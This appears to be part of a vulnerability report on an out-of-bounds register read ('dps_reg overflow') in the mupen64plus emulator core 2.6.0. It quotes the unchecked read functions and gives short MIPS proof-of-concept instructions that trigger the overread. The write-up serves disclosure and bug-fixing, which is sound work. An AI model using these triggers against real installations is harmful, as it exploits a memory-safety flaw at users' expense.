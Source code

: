 ### BUG6: dps_reg overflow

#### Vulnerability Analysis

```c
https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/rdp/rdp_core.c#L84
void read_dpc_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct rdp_core* dp = (struct rdp_core*)opaque;
    uint32_t reg = dpc_reg(address);

    *value = dp->dpc_regs[reg];
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/rdp/rdp_core.c#L126
void read_dps_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct rdp_core* dp = (struct rdp_core*)opaque;
    uint32_t reg = dps_reg(address);

    *value = dp->dps_regs[reg];
}
```

#### Reproduction

- poc.asm

dpc
```asm
0000000000000000 <_start>:
   0:   3c048410        lui     a0,0x8410
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```
![](./asserts/dpc.png)

dps
```
0000000000000000 <_start>:
   0:   3c048420        lui     a0,0x8420
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```
![](./asserts/dps.png)